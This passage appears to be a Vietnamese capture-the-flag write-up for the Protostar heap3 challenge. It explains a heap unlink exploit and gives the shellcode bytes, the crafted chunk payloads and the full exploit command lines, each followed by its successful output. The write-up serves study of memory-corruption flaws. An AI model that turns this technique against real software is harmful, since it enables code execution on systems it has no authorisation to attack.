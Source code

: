 Solution: Viết shell code để trong heap, thay vì ghi winner address vào BK, ta ghi địa chỉ của shell code này vào BK.
- Ta có quyền ghi vào vùng heap, không bị fail như ghi vào vùng text.
- Shell code phải ngắn, < 8 bytes, vì *(địa chỉ shell code + 8) = FD, nghĩa là bị ghi đè.

**Kết thúc vấn đề 2: viết shell code**
- assembly code: push địa chỉ winner() vào stack, ret sẽ gọi hàm winner()
```
  push 0x8048864
  ret
```
- sử dụng trang https://defuse.ca/online-x86-assembler.htm#disassembly, ta có được shell code 6 bytes:
```
\x68\x64\x88\x04\x08\xC3
```
- Ta để shell code vào a.

## FINAL
- Tổng kết lại, heap của ta sẽ như sau:
```
a chunk                                    b chunk                                c chunk
↓                                          ↓                                      ↓   
+----+--------------+----------------------++----+-------------------+------------++-----------+----------+----------+-------------------+-------------------+
|meta| 8 bytes "A"  | 6 bytes shell code   ||meta| 28 bytes "A"      |bit cuối: 1 ||prev_size: |size:     | 4 bytes  | fd of fake chunk: | bk of fake chunk: |
|data|              |                      ||data|                   |            ||-4         |-4        | "A"      | 0x0804b11c        | 0x0804c010        |
+----+--------------+----------------------++----+-------------------+------------++-----------+----------+----------+-------------------+-------------------+
                                                                                               ↑
                                                                                               fake chunk
```
- a: python -c 'print "A"*8 + "\x68\x64\x88\x04\x08\xC3"'
  - "A"*8: 8 bytes này khi free(a) sẽ bị ghi đè. => để tránh shell code bị ghi đè
  - 6 bytes shell code
- b: python -c 'print "A"*28 + "\x01\x01\x01\x01" + "\xfc\xff\xff\xff" + "\xfc\xff\xff\xff"'
  - "A"*28: trash
  - "\x01\x01\x01\x01": ô này là ô size của next next chunk, để bit cuối là 1 sẽ không consolidate forward
  - "\xfc\xff\xff\xff": -4 thứ nhất, ghi lên prev_size của c chunk
  - "\xfc\xff\xff\xff": -4 thứ 2, ghi lên size của c chunk
- c: python -c 'print "A"*4 + "\x1c\xb1\x04\x08" + "\x10\xc0\x04\x08"'
  - "A"*4: size của fake chunk, không quan trọng, ghi bừa.
  - "\x1c\xb1\x04\x08": GOT puts address - 12 = 0x0804b11c
  - "\x10\xc0\x04\x08": địa chỉ của 6 bytes shell code trong heap

- Result:
```
user@protostar:/opt/protostar/bin$ ./heap3 `python -c 'print "A"*8 + "\x68\x64\x88\x04\x08\xC3"'` `python -c 'print "A"*28 + "\x01\x01\x01\x01" + "\xfc\xff\xff\xff" + "\xfc\xff\xff\xff"'` `python -c 'print "A"*4 + "\x1c\xb1\x04\x08" + "\x10\xc0\x04\x08"'`
that wasn't too bad now, was it? @ 1654478276
```
- Một cách khác khi thay prev_size = -8, size = -8 của c chunk metadata:
```
user@protostar:/opt/protostar/bin$ ./heap3 `python -c 'print "A"*8 + "\x68\x64\x88\x04\x08\xC3"'` `python -c 'print "A"*24 + "\x01\x01\x01\x01" + "\xfc\xff\xff\xff" + "\xf8\xff\xff\xff" + "\xf8\xff\xff\xff"'` `python -c 'print "A"*8 + "\x1c\xb1\x04\x08" + "\x10\xc0\x04\x08"'`
that wasn't too bad now, was it? @ 1654478410
```
# References
